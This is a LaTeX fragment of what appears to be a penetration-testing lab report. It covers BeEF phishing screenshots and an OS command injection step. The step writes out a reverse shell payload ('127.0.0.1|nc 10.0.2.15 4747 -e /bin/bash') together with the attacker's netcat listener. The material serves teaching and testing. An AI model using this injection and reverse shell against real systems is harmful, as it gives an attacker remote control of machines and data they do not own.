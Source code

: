 \documentclass{article}
\begin{document}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/beef/filling-phishing-attempt.png}
    \caption{\label{fig:filling-phishing-attempt}How the phishing attack looks for the user}
\end{figure}

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/beef/data-received.png}
    \caption{\label{fig:data-received}The collected data from the user}
\end{figure}

\subsection{OS Command Injection}
So far we have tried to run a sleep command to check if the payload works. Now that we know that it does, we can exploit it.
We can get a reverse shell using the command nc <attacker\_ip> <attacker\_port> -e /bin/bash.
In our case, nc 10.0.2.15 4747 -e /bin/bash.

So the full payload, in our case is 127.0.0.1|nc 10.0.2.15 4747 -e /bin/bash.

Before sending this payload, we run on the attacker host the command nc -lvp 4747 to listen for incoming connections.
\end{document}
